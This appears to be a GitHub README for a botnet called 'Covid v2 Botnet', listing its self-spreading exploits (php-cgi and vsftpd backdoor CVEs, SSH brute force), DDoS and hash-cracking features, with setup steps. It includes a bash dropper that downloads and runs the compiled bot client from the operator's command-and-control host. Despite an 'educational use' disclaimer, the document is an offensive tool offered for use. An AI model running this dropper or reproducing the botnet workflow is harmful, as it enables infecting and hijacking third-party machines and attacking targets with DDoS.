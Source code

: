# Covid v2 Botnet
***This software is provided under the MIT license
***Disclaimers: this botnet is for educational purpose and ethical use only! any other use is on the user's own responsibility, and we are not responsible for any of the user's usage of it!***

**What can it do?**
- attack targets by a list
- attack targets on local network with a scanner
- spread through CVE-2012-1823 (php-cgi Argument Injection)
- spread through CVE-2011-2523 (vsftpd 2.3.4 backdoor)
- spread through SSH Brute Force
- search targets on shodan
- ddos spesific target (basic one with stop option)
- recognize a given hash and crack it using a word list
- save bots and targets lists into json file

![Botnet Help Command](gifs/1B477A4D-9C7F-4173-8911-4CBA80492C54.GIF)

**How to use?**

1. download the project

2. configure the cnc ip and cnc port on client.py and server.py

3. add shodan api token

4. configure the wordlist in client.py and configure the wordlist length in server.py

5. create an installation file to make the target get infected and configure it on server.py and client.py
for example:

use a python compiler to compile client.py,
then create a bash script that downloads the chosen wordlist, the compiled client and runs the client:
```
#!/bin/bash
cnc_ip="your cnc"
executable="created executable with python compiler"
wordlist="your configured wordlist location"
wget http://$cnc_ip/$executable
wget http://$cnc_ip/$wordlist
chmod 777 $executable
./$executable
```
configure the bash file name under executable in server.py and client.py

6. run the server.py and attack your targets!

**Attack example:**

the attack is used on 3 local ips:
 
- 192.168.10.16 - Vunerable to CVE-2012-1823

- 192.168.10.18 - Vunerable to SSH Brute Force

- 192.168.10.20 - Vunerable to CVE-2011-2523

![Botnet Attack Example](gifs/3B4C1644-0690-4EAF-AA87-D2BB0C56800E.GIF)

**Hash cracking example**

the cracking is used on 3 infected bots and tries to crack md5 hash of "admin"

![Botnet Crack Hash Example](gifs/2518F02C-C205-4B92-A478-F97B7573475E.GIF)
